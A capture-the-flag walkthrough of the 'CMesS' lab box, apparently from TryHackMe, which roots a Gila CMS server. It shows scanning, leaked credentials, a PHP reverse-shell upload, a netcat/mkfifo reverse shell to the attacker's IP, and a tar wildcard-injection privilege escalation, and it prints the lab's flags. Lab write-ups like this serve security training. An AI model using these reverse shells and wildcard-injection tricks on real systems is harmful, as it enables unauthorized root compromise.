

# CMesS

## Description

Can you root this Gila CMS box?

Please add `MACHINE IP cmess.thm` to /etc/hosts

Please also note that this box does not require brute forcing!

## Initail Scan

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

~~~
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web page

First add "cmess.thm" with your machine IP to /etc/hosts as the description said. Now let's start with enumerating the webpage, since we can't get initial access to ssh service.

The main page is the default page for "Gila CMS". I navigated to `robots.txt` which revealed a few directories:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CMesS]
└─$ curl "http://$IP/robots.txt"
User-agent: *
Disallow: /src/
Disallow: /themes/
Disallow: /lib/
~~~

Next I decided to run `gobuster` on the webpage to find more directories:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CMesS]
└─$ gobuster  dir -w /usr/share/dirb/wordlists/common.txt -u http://cmess.thm:80/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cmess.thm:80/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/08 07:35:23 Starting gobuster in directory enumeration mode
===============================================================
/0                    (Status: 200) [Size: 3860]
/01                   (Status: 200) [Size: 4090]
/1                    (Status: 200) [Size: 4090]
/1x1                  (Status: 200) [Size: 4090]
/About                (Status: 200) [Size: 3345]
/about                (Status: 200) [Size: 3359]
/admin                (Status: 200) [Size: 1583]
/api                  (Status: 200) [Size: 0]   

[REDACTED]

/lib                  (Status: 301) [Size: 312] [--> http://cmess.thm/lib/?url=lib]      
/log                  (Status: 301) [Size: 312] [--> http://cmess.thm/log/?url=log]      
/login                (Status: 200) [Size: 1583]                                         
/robots.txt           (Status: 200) [Size: 65]                                           

[REDACTED]
~~~

The only interesting ones are `/login` and `/admin`. The problem is that we have no credentials and as the descriptions said, we can't use brute-force attack.

The hint for the user flag suggests us to check the subdomains. I used `wfuzz` to do so:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CMesS]
└─$ wfuzz -c --hl 107 -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cmess.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                              
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"                                                

Total time: 0
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 0
~~~

We found a subdomain named `dev`. Add it to /etc/hosts (`dev.cmess.thm  <machine IP>`). Let's take a look at this subdomain:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CMesS]
└─$ curl -s "http://dev.cmess.thm/" | html2text 
***** Development Log *****
**** andre@cmess.thm ****
Have you guys fixed the bug that was found on live?

**** support@cmess.thm ****
Hey Andre, We have managed to fix the misconfigured .htaccess file, we're
hoping to patch it in the upcoming patch!

**** support@cmess.thm ****
Update! We have had to delay the patch due to unforeseen circumstances

**** andre@cmess.thm ****
That's ok, can you guys reset my password if you get a moment, I seem to be
unable to get onto the admin panel.

**** support@cmess.thm ****
Your password has been reset. Here: KPFTN_f2yxe%
~~~

We can see a conversation between the dev team. We are also provided with an email and a password:

* Email: `andre@cmess.thm`
* Password: `KPFTN_f2yxe%`

We can use these creds to login from `cmess.thm/admin`. Now we have access to admin panel:

## Reverse Shell

Now we can upload a reverse shell. Go to `Content > File Manager` and add a file named `shell.php` in `assets` folder. I'm gonna use a php reverse shell which you can find [here](https://github.com/pentestmonkey/php-reverse-shell). Copy the reverse shell in the shell.php and change the IP to yours and change the port to which you want to get the shell on.

Now save the file and start a listener (`rlwrap nc -lvnp 4444`). Then call the shell from `http://cmess.thm/assets/shell.php`. Now we have a shell as `www-data`. The first thing I did was spawning a TTY shell using a python one-liner:

~~~
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@cmess:/$ 
~~~

## www-data -> andre

If you list `/home`, you'll see that `andre` is a user on this machine. Let's switch to this user. To make things faster, I uplaoded `linpeas` to the target machine. First start a python server (`python3 -m http.server 80`) where the linpeas is located and then download it on the target machine using `wget`. Mark it as executable and run it:

~~~
$ wget http://<YOUR IP>/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
~~~

Linpeas found us `.password.bak` which is a backup file for andre's password located in `/opt`:

~~~
www-data@cmess:/$ cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6
~~~

## User flag

Now we can connect to the machine via ssh with `andre:UQfsdCB7aAP6` and read the user flag:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CMesS]
└─$ ssh andre@$IP
andre@10.10.30.110's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Mon Nov  8 07:08:23 2021 from 10.9.1.171
andre@cmess:~$ ls
backup  user.txt
andre@cmess:~$ cat user.txt 
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
~~~

User flag: `thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}`

## Going root

Now we need to gain root access in order to obtain the root flag. I checked my sudo permissions with `sudo -l`, but we have none. The next thing I checked was `/etc/crontab` to see if any cronjobs are running and take a look at this:

~~~
andre@cmess:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
~~~

This cronjob runs every two minutes by `root`. This command is using wildcard (`*`) which selects all the files located in `/home/andre/backup`. Then all the files are compressed with `tar`. I took a look at [GTFOBins](https://gtfobins.github.io/) and it seems like we can take advantage of this mistake.

Due to existence of the wildcard, we can create files that will be interpreted as options for the `tar` command, to ultimately execute something similar to what we can see in GTFOBins:

~~~
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
~~~

Let's create a reverse shell in `/home/andre/backup`:

~~~
andre@cmess:~/backup$ cat > rshell << EOF
> #!/bin/bash
> rm /tmp/f
> mkfifo /tmp/f
> cat /tmp/f | /bin/sh -i 2>&1 | nc <YOUR IP> 4444 >/tmp/f
> EOF
andre@cmess:~/backup$ echo "" > "/home/andre/backup/--checkpoint=1"
andre@cmess:~/backup$ echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rshell"
~~~

Now open a listener and wait for the cronjob to run. After a little while, we'll get a root shell:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CMesS]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.82] from (UNKNOWN) [10.10.30.110] 39724
/bin/sh: 0: can't access tty; job control turned off
#id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now head to `/root` and read the root flag:

~~~
# cd /root
# ls
root.txt
# cat root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
~~~

Root flag: `thm{9f85b7fdeb2cf96985bf5761a93546a2}`

# D0N3! ; )

Thanks to the creator(s).

Hope you had fun and learned something.

Have a g00d one! : )